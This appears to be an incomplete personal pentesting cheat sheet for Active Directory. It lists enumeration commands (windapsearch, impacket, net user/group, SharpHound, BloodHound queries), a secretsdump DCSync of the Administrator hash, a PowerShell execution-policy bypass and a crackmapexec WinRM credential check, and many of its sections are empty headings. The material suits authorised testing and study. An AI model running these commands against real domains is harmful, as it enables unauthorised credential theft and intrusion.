

# Enumeration

## Some tips:
In order to execute some powershell scripts:
```
powershell -ep bypass
```

About users (script for getting users)

## Manual

Windapsearch form anonymous binds:
```
./windapsearch.py -d domain.com --dc-ip $rhost -U
```

### Enumerate Users
```
impacket-GetADUsers domain.com -dc-ip $rhost -debug
```

[Username anarchy - Tool for generating usernames when pentesting.](https://github.com/urbanadventurer/username-anarchy)

If you have only users, you should try **AS-REP Roasting**.

Enumerate Local Accounts on the machine:
```
net user /domain
```

Checking admin account:
```
net user admin /domain
```

Enumerate roups:
```
net group /domain
```

Get information about Sales Department
```
net group "Sales Department" /domain
```

### Operating System

### Permissions and Logged on Users

### Enumeration Through Service Principal Names

### Enumerating Object Permissions

### Enumerating Domain Shares

## Automatic

### BloodHound

#### Sharphound:
```
Invoke-BloodHound -CollectionMethod All
```

#### Analyzing Data

#### Raw Queries

Return Computers:
```
MATCH (m:Computer) RETURN m
```

Return Users:
```
MATCH (m:User) RETURN m
```

```
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
```

# Attacking

Reference: [Wikipedia](https://en.wikipedia.org/wiki/Kerberos_%28protocol%29)


## Password Attacks

## AS-REP Roasting

## Kerberoasting

## Silver Tickets

## Domain Controller Synchronization

With impacket:
```
secretsdump.py domain.com/username@$rhost -just-dc-user Administrator
```

with mimikatz:


# Lateral Movement

How to create a PSCredential:
```
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```

## Wmic and WinRM
WMI, we need credentials of a member of the Administrators local group

For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.

Checking for WinRM:
```
crackmapexec winrm $ip -u user -p password
```
## PsExec
The user that authenticates to the target machine needs to be part of the Administrators local group
The ADMIN$ share must be available and File and Printer Sharing has to be turned on

impacket-psexec
## Pass the Hash

## Overpass the Hash

## Pass the Ticket

## DCOM

# Persistance

## Golden Ticket

## Shadow Ticket
